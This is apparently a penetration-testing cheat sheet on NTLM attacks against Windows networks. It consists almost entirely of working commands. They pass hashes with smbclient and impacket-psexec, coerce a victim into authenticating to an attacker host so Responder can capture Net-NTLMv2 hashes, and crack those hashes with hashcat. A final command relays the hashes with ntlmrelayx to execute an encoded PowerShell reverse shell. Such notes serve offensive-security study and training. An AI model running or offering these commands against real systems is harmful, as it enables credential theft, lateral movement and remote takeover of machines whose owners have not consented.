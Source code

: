 ## Passing the NTLM hashes

The NTLM hashes can be used also as is if the protocol supports it. An example is SMB

```shell
smbclient \\\\<TARGET-IP>\\secrets -U Administrator --pw-nt-hash <NTLM-HASH>
```

We can escalate the writables shares with `impacket-psexec`, a oneliner tool that opens a reverse shell with the exploited target.

```shell
impacket-psexec -hashes 00000000000000000000000000000000:<NTLM-HASH> Administrator@<TARGET-IP>
```

## Cracking the Net-NTLMv2 hashes

One of the authentication protocols Windows machines use to authenticate across the network is a challenge / response / validation called Net-NTLMv2. If can get a Windows machine to engage my machine with one of these requests, we can perform an offline cracking to attempt to retrieve their password. In some cases, we could also do a relay attack to authenticate directly to some other server in the network.

Once identified our interface, we can start our interceptor with

```shell
sudo responder -I <INTERFACE>
```

And from the Victim we only need to mount as a SMB share a fake provided path

```powershell
dir \\<ATTACKER-IP>\test
```

In this way `responder` will dump the hash that could be cracked with code **5600** on hashcat

```shell
hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt --force
```

## Relaying the Net-NTLMv2 hashes

We can perform a `ntlmrelayx` attack if the gained hash is too difficult to be cracked. In this case the `<TARGET-IP>` is the second exploitable machine on the network.

```shell
impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET-IP> -c "powershell -enc <ENCODED-REVSHELL>"
```

The encoded reverse shell can be crafted with some UTF-16-BE malicious code crafted with [RevShells](https://www.revshells.com/). Then, we have to gain the hash from the first machine. We can do the same attack as before, mounting on the machine 1 the fake SMB share, in order to gain the hash.

```powershell
dir \\<ATTACKER-IP>\test
```
